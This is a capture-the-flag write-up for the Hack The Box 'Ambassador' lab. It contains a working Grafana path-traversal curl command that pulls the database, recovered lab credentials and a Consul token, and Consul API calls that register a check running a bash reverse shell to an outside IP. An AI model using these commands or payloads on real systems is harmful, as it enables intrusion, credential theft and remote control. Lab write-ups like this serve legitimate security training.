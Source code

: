 Hack the box Ambassador

Initial Scan

PORT 80 running a hugo site which a static site generater framework
PORT 3000 running Grafana. A grafical monitering tool
PORT 3306 running mysql

unauthenticated LFI vuln in grafana version 3.2.0
Referance [https://www.exploit-db.com/exploits/50581]( https://www.exploit-db.com/exploits/50581)
More about LFI [https://j0vsec.com/post/cve-2021-43798/](https://j0vsec.com/post/cve-2021-43798/)

Exploit LFI using a python script 
Default config of grafana is using sqlite3 and store the file on /var/lib/grafana/grafana.db

Downloading Grafana.db

```bash
curl --path-as-is "http://10.129.208.1:3000/public/plugins/state-timeline/../../../../../../../../../../../../../var/lib/grafana/grafana.db" -O grafana.db
```

Found some creds
```bash
Username:grafana
password:dontStandSoCloseToMe63221!
Database:grafana
```
Grafana login cred
```bash
username:admin
password:dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab069
salt:0X27trve2u
````
User creds
```bash
developer:YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==:anEnglishManInNewYork027468
```
Privilege escalation

Found token from local git commit of my-app in opt dir
```bash
ACL token:bb03b43b-1d81-d62b-24b5-39540ee469b5
```
Making exploit

Referance API doc
[https://www.consul.io/api-docs/agent/service](https://www.consul.io/api-docs/agent/service)

Referance about default port
[https://stackoverflow.com/questions/30684262/different-ports-used-by-consul](https://stackoverflow.com/questions/30684262/different-ports-used-by-consul)
```bash
curl http://127.0.0.1:8500/v1/agent/services -H "X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5"
curl -X PUT http://127.0.0.1:8500/v1/agent/services/register -H "X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5" --data @rce.json
```
rce.json
```json
{
  "ID": "rce3",
  "Name": "rce3",
  "Tags": ["primary", "v1"],
  "Address": "127.0.0.1",
  "Port": 80,
  "Check": {
    "Args": ["bash", "-c", "bash -i >& /dev/tcp/10.10.16.6/9001 0>&1"],
    "Interval": "10s",
    "Timeout": "86400s"
  }
}
```